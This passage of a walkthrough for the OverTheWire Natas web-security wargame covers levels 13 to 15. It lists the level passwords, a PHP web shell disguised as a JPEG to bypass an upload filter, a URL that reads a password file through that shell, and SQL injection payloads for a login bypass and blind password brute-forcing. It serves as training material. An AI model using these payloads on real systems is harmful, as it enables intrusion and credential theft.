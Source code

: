 ```

U: natas13
P: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

Similar to level 12, however now a filetype check is performed. We can bypass the filetype check by adding some basic EXIF data to fool it.
For example:
	```echo -e "\xFF\xD8\xFF\xE0<?php $cmd=$_GET['cmd']; passthru($cmd);?>" > ~/natas13.jpeg```

Upload this file and use tamper data to rename the temporary random filename extension to .php.
Then View the file for example like this: ```http://natas13.natas.labs.overthewire.org/upload/nbijbtjy7g.php?cmd=cat%20/etc/natas_webpass/natas14```

Useful Sources:
- http://www.exiv2.org/tags.html
- http://www.r00tsec.com/2014/08/howto-bypass-exifimagetype-function.html


### LEVEL 14 - http://natas14.natas.labs.overthewire.org/
----------

U: natas14
P: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

Level in vulnerable to SQL injection.
The SQL statement in question is:
- ```$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";```
We can pass ```" or ""="``` as the username and password.
- ```$query = "SELECT * from users where username=\""" or ""=""\" and password=\""" or ""=""\"";```

This makes the input say ```username="" or "="``` as ```"="``` is always true (same for password).

Useful Sources:
- http://www.w3schools.com/sql/sql_injection.asp


### LEVEL 15 - http://natas15.natas.labs.overthewire.org/
----------

U: natas15
P: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

The level is vulnerable to SQL injection. Meaning the level lets you inject an unfiltered query.
Exploiting this requires modifying the query to check if the password begins with a character then brute force guessing.
The specific query:
	- ```http://natas15.natas.labs.overthewire.org/index.php?debug&username=natas16" AND password LIKE BINARY "{0}%```

Some assumptions based on prior/given knowledge:
	- Username is natas16
	- Password is 32 chars long
	- The table format is given in the source

The BINARY keyword is neccessary to make the string comparision case sensitive (MySQL defaults to case insensitivity) and the ```%``` character is a wildcard.

Source code in natas15.py

Useful Sources:
	- https://www.exploit-db.com/docs/17397.pdf

```